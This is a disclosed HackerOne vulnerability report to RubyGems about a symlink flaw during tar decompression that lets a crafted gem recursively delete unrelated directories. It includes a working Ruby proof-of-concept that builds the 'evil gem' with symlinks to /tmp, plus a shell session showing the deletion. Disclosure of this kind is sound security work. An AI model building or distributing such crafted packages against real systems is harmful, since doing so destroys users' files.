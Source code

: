 # Delete directory using symlink when decompressing tar

## Report Details
- **Report ID**: 317321
- **URL**: https://hackerone.com/reports/317321
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-18T10:55:08.651Z
- **Disclosed**: 2019-04-11T11:53:38.276Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rubygems

## Vulnerability Information
In 2.7.6, the safety of symlink is confirmed with `mkdir_p_safe`,
Before that `FileUtils.rm_rf destination` is running.
Therefore, if `tmp/dir` is specified after `tmp -> /tmp`, the following `/tmp/dir` is deleted.

### Proof of concept

#### builder.rb

```ruby
require 'rubygems/package'

class GemBuiler

   def initialize spec, path
    @_build_time      = Time.now
    @_checksums       = {}
    @_signer          = Gem::Security::Signer.new nil, nil, ""
    @_spec            = spec
    @_path            = path
  end

  def build &block
    Gem.load_yaml
    require 'rubygems/security'

    @_spec.mark_version

    File.open @_path, 'wb' do |gem_io|
      Gem::Package::TarWriter.new gem_io do |gem|
        add_metadata gem
        add_contents gem, &block
        add_checksums gem
      end
    end
  end

  def add_checksums tar
    Gem.load_yaml

    checksums_by_algorithm = Hash.new { |h, algorithm| h[algorithm] = {} }

    @_checksums.each do |name, digests|
      digests.each do |algorithm, digest|
        checksums_by_algorithm[algorithm][name] = digest.hexdigest
      end
    end

    tar.add_file_signed 'checksums.yaml.gz', 0444, @_signer do |io|
      gzip_to io do |gz_io|
        YAML.dump checksums_by_algorithm, gz_io
      end
    end
  end

  def add_contents tar, &block
    digests = tar.add_file_signed 'data.tar.gz', 0444, @_signer do |io|
      gzip_to io do |gz_io|
        Gem::Package::TarWriter.new gz_io, &block
      end
    end

    @_checksums['data.tar.gz'] = digests
  end

  def add_metadata tar 
    digests = tar.add_file_signed 'metadata.gz', 0444, @_signer do |io|
      gzip_to io do |gz_io|
        gz_io.write @_spec.to_yaml
      end
    end

    @_checksums['metadata.gz'] = digests
  end

  def gzip_to io
    gz_io = Zlib::GzipWriter.new io, Zlib::BEST_COMPRESSION
    gz_io.mtime = @_build_time

    yield gz_io
  ensure
    gz_io.close
  end
end

spec = Gem::Specification.new do |s|
  s.name    = 'hello'
  s.version = '0.0.1'
  s.summary = 'hello summary'
  s.author= "test"
end


# create evil gem

rm = GemBuiler.new(spec, "rm_dir.gem")
rm.build do |data_tar|
  data_tar.add_symlink "tmp", "/tmp", 16877
  data_tar.add_symlink "tmp/dir", ".", 16877
end
```

#### execute

```
$ ls /tmp/dir
file

$ ruby builder.rb

$ gem unpack rm_dir.gem
ERROR:  While executing gem ... (Gem::Package::PathError)
    installing into parent path tmp/dir of /xxx/yyy/zzz/... is not allowed

$ ls /tmp/dir
ls: /tmp/dir: No such file or directory
````

## Impact

Unrelated directories will be deleted when unpacking or installing a specially crafted gem.
Since `mkdir_p_safe` produces an error, only one can be specified, but it will be deleted recursively.

## Attachments
No attachments
